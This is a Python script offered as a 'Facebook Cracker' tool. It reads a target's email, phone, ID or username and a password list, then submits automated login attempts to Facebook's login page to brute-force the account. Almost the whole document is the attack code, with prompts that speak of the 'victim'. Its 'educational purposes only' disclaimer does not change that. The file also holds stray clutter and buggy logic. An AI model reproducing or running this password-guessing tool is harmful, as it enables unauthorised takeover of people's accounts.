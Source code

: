# How
Howe
#!usr/bin/python
#Facebook Cracker Version 2 can crack into Facebook Database 100% without Interruption By Facebook Firewall !
#This program is for educational purposes only.
#Don't attack people facebook accounts it's illegal ! 
#If you want to crack into someone's account, you must have the permission of the user. 
#InfosecHacker is not responsible.


import sys
import random



























































































































import cookielib
import mechanize 
GHT = '''
        +=========================================+
        |..........Facebook Cracker v 2...........|
        +-----------------------------------------+
        |#Author: RdH4CK3r  modified        |
        ||
        |#Date: 23/10/2015                        |
        |#This tool is made for pentesting.       |
        |#Changing the Description of this tool   |
        |Won't made you the coder ^_^ !!!         |
        |#Respect Coderz ^_^                      |
        |#I take no responsibilities for the      |
        |  use of this program !                  |
        +=========================================+
        |..........Facebook Cracker v 2...........|
        +-----------------------------------------+
'''
print ("Note:- This tool can crack facebook account even if you don't have the email of your victim")
print ("# Hit CTRL+C to quit the program")
print ("# Use www.graph.facebook.com for more infos about your victim")


email = str(raw_input("# Enter |Email| |Phone number| |Profile ID number| |Username| : "))
passwordlist = str(raw_input("Enter the name of the password list file : "))

useragents = [('User-agent', 'Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Gecko/2008071615 Fedora/3.0.1-1.fc9 Firefox/3.0.1')]



login = 'https://www.facebook.com/login.php?login_attempt=1'
def attack(password):

  try:
     sys.stdout.write("\r[*] trying %s.. " % password)
     sys.stdout.flush()
     br.addheaders = [('User-agent', random.choice(useragents))]
     site = br.open(login)
     br.select_form(nr=0)

      
         
     ##Facebook
     br.form['email'] =email
     br.form['pass'] = password
     br.submit()
     log = br.geturl()
     if log == login:
        print ("\n\n\n [*] Password found .. !!")
        print ("\n [*] Password : %s\n") % (password)
        sys.exit(1)
  except KeyboardInterrupt:
        print ("\n[*] Exiting program .. ")
        sys.exit(1)

def search():
    global password
    for password in passwords:
        attack(password.replace("\n",""))



def check():

    global br
    global passwords
    try:
       br = mechanize.Browser()
       cj = cookielib.LWPCookieJar()
       br.set_handle_robots(False)
       br.set_handle_equiv(True)
       br.set_handle_referer(True)
       br.set_handle_redirect(True)
       br.set_cookiejar(cj)
       br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
    except KeyboardInterrupt:
       print ("\n[*] Exiting program ..\n")
       sys.exit(1)
    try:
       list = open(passwordlist, "r")
       passwords = list.readlines()
       k = 0
       while k < len(passwords):
          passwords[k] = passwords[k].strip()
          k += 1
    except IOError:
        print ("\n [*] Error: check your password list path \n")
        sys.exit(1)
    except KeyboardInterrupt:
        print ("\n [*] Exiting program ..\n")
        sys.exit(1)
    try:
        print (GHT)
        print (" [*] Account to crack : %s") % (email)
        print (" [*] Loaded :") , len(passwords), "passwords"
        print (" [*] Cracking, please wait ...")
    except KeyboardInterrupt:
        print ("\n [*] Exiting program ..\n")
        sys.exit(1)
    try:
        search()
        attack(password)
    except KeyboardInterrupt:
        print ("\n [*] Exiting program ..\n")
        sys.exit(1)

if __name__ == '__main__':
    check()
